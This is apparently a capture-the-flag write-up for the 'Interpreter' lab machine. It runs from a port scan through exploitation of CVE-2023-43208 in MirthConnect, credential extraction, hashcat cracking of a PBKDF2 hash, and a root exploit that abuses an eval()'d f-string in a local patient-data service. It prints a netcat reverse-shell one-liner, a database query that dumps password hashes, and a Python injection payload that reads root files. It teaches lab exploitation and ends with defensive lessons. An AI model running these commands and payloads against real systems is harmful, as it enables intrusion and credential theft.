







## Overview

<table style="width:100%; table-layout:fixed;">
  <thead>
    <tr>
      <th style="width:40%; text-align:left;">Category</th>
      <th style="width:60%; text-align:left;">Info</th>
    </tr>
  </thead>
  <tbody>
    <tr><td>Machine Name</td><td>Interpreter</td></tr>
    <tr><td>Difficulty</td><td>Medium</td></tr>
    <tr><td>Release Date</td><td>21 February, 2026</td></tr>
    <tr><td>Author</td><td>ReziT</td></tr>
    <tr><td>OS</td><td>Linux</td></tr>
    <tr><td>Pwned Date</td><td>23 February, 2026</td></tr>
  </tbody>
</table>
  
---


## Enumeration

### Port Scan

Initial enumeration revealed the following open ports:

```bash
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 07:eb:d1:b1:61:9a:6f:38:08:e0:1e:3e:5b:61:03:b9 (ECDSA)
|_  256 fc:d5:7a:ca:8c:4f:c1:bd:c7:2f:3a:ef:e1:5e:99:0f (ED25519)
80/tcp   open  http     Jetty
|_http-title: Mirth Connect Administrator
| http-methods: 
|_  Potentially risky methods: TRACE
443/tcp  open  ssl/http Jetty
|_http-title: Mirth Connect Administrator
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=mirth-connect
| Not valid before: 2025-09-19T12:50:05
|_Not valid after:  2075-09-19T12:50:05
|_ssl-date: TLS randomness does not represent time
6661/tcp open  unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The two localhost-only ports stood out immediately as targets for SSH tunneling after gaining a foothold.

### MirthConnect

Visiting the web interface revealed a `webstat.jnpl` file exposing the version: **MirthConnect 4.4.0**.




---

## Initial Foothold: CVE-2023-43208

MirthConnect 4.4.0 is vulnerable to [**CVE-2023-43208**](https://github.com/K3ysTr0K3R/CVE-2023-43208-EXPLOIT/tree/main), an unauthenticated Remote Code Execution vulnerability.



Use this command on the terminal after RCE works and setup listener on another terminal to get interactive shell:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.11 5555 > /tmp/f
```
---

## Credential Harvesting

### Database Credentials

The MirthConnect configuration file at `/usr/local/mirthconnect/conf/mirth.properties` contained plaintext credentials:

```bash
database.username = mirthdb
database.password = <REDACTED>

keystore.path     = ${dir.appdata}/keystore.jks
keystore.storepass = 5GbU5HGTOOgE
keystore.keypass   = tAuJfQeXdnPw
keystore.type      = JCEKS
```

### PBKDF2 Hash Cracking

The following hash string was discovered for user `sedric`:

```bash
mysql -u mirthdb -p<PASS> -e "USE mc_bdd_prod; SELECT p.USERNAME, pp.PASSWORD FROM PERSON p JOIN PERSON_PASSWORD pp ON p.ID = pp.PERSON_ID;"

USERNAME        PASSWORD
sedric  u/+LB<REDACTED>
```

This is a [**PBKDF2-HMAC-SHA256**](https://github.com/nextgenhealthcare/connect/issues/5665) hash. To convert it into hashcat format, the following steps were performed in CyberChef:

1. **From Base64** — decode the hash value
2. **To Hex** — convert to hex representation
3. **Take first 8 bytes** — convert from hex → base64, this is the **salt**
4. **Take remaining bytes** — convert from hex → base64, this is the **hash**

This produced the hashcat-compatible format:

```bash
sha256:600000:<SALT>:<ENCRYPTED HASH>
```

Cracking with hashcat:

```bash
hashcat -m 10900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```


Get the flag after gaining secure shell using SSH

---

## Privilege Escalation

### Discovery

Running ``ss -tulnp`` after SSH access confirmed the earlier localhost port of interest `127.0.0.1:54321`.


These ports are explained as following for the service they are running:

Publicly Accessible Services (`0.0.0.0:*`) and Restricted Local Services (`127.0.0.1:*`)
- `0.0.0.0:22`: SSH port
- `0.0.0.0:80`: HTTP Web-Server
- `0.0.0.0:443`: HTTPS Server
- `0.0.0.0:4444`: netcat shell we are running
- `0.0.0.0:6661`: MirthConnect CLI
- `127.0.0.1:3306`: Mysql server
- `127.0.0.1:54321`: Some internal service

`127.0.0.1:54321` is a restricted local service so we use SSH tunneling:
```bash
ssh -L 54321:127.0.0.1:54321 sedric@interpreter.htb
```

We see the processes running on the box using `ps aux`



### Code Analysis

The service accepts XML patient data via `POST /addPatient` and formats it using a templating function. The critical flaw is in this block:

```python
template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"
try:
    return eval(f"f'''{template}'''")
```

User-controlled fields are interpolated into a string that is then **evaluated as an f-string via `eval()`**. This means anything inside `{}` in an input field is executed as Python code.

The regex filter attempts to block dangerous characters:

```python
pattern = re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$")
```

However it permits `{}`, `.`, `()`, `_`, `'`, and `"` — more than enough to achieve code execution using Python built-ins.

### Exploitation

Since `curl` was not available on the box, a Python script was crafted and run directly:

```python
import requests

xml_payload = """<patient>
  <firstname>John</firstname>
  <lastname>cena</lastname>
  <sender_app>{__import__('builtins').open('/root/root.txt').read()}</sender_app>
  <timestamp>12/12/2024</timestamp>
  <birth_date>01/01/1990</birth_date>
  <gender>M</gender>
</patient>"""

r = requests.post(
    "http://127.0.0.1:54321/addPatient",
    headers={"Content-Type": "application/xml"},
    data=xml_payload
)

print(r.status_code)
print(r.text)
```

The `sender_app` field injects `{__import__('builtins').open('/root/root.txt').read()}` into the eval'd f-string. Since the service runs as root, this directly reads the root flag.



---

## Key Takeaways

- **CVE-2023-43208**: MirthConnect 4.4.0 is affected by unauthenticated RCE. Always check service versions during enumeration.
- **PBKDF2 hashes**: Can be cracked with hashcat mode `10900`. The salt/hash split must be done manually when the format is non-standard.
- **`eval()` on user input is never safe**: even with regex filtering. Whitelisting characters like `{}`, `()`, and `.` is insufficient when the target is a Python expression evaluator.
---

## References
- CVE-2023-43208: https://github.com/K3ysTr0K3R/CVE-2023-43208-EXPLOIT/tree/main
- PBKDF2-HMAC-SHA256 hash: https://github.com/nextgenhealthcare/connect/issues/5665


**Write-up prepared by:** *the008killer*